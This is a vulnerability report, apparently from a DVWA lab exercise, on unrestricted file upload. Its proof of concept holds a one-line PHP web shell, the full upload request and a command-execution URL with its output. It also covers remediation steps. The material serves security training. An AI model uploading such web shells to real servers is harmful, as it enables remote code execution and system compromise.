

## Overview

- **Application:** DVWA (Damn Vulnerable Web Application)
- **Vulnerability:** Unrestricted File Upload
- **Location:** /vulnerabilities/upload/
- **Severity:** Critical
- **CVSS Score:** 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)


## Description

The application allows users to upload files without proper validation of file type or content.  
This enables attackers to upload malicious files such as PHP web shells and execute arbitrary commands on the server.


##  Affected Endpoint

http://10.236.92.45:8080/vulnerabilities/upload/


##  Proof of Concept (PoC)

###  Step 1 — Upload Malicious File

Payload:
```php
<?php system($_GET['cmd']); ?>
```

Burp Request:
```http
POST /vulnerabilities/upload/ HTTP/1.1
Host: 10.236.92.45:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryX

------WebKitFormBoundaryX
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
------WebKitFormBoundaryX--
```


###  Step 2 — Access Uploaded Shell

```bash
http://10.236.92.45:8080/hackable/uploads/shell.php?cmd=id
```


###  Step 3 — Command Execution

Result:
```
uid=33(www-data) gid=33(www-data)
```




##  Impact

- Remote Code Execution (RCE)
- Full system compromise
- Data exfiltration
- Privilege escalation


##  Root Cause

- No file type validation
- No MIME type verification
- No file content inspection
- Direct execution of uploaded files


##  Remediation

###  File Type Validation
- Allow only specific extensions (e.g., .jpg, .png)

### MIME Type Checking
- Validate server-side MIME type

###  Store Files Securely
- Store outside web root

###  Disable Execution
- Prevent execution of uploaded files

### Rename Files
- Generate random filenames


##  Exploitation Flow

1. Identify upload functionality
2. Upload malicious PHP file
3. Access uploaded file
4. Execute system commands
5. Gain shell access


##  Tools Used

- Burp Suite
- Browser


## Risk Rating

| Metric        | Value |
|--------------|--------|
| Severity     | Critical |
| Exploitability | Easy |
| Impact       | High |


##  References

- OWASP Top 10 — A05: Security Misconfiguration
- https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload


##  Conclusion

The application is vulnerable to unrestricted file upload, allowing attackers to execute arbitrary code and gain full control of the system.


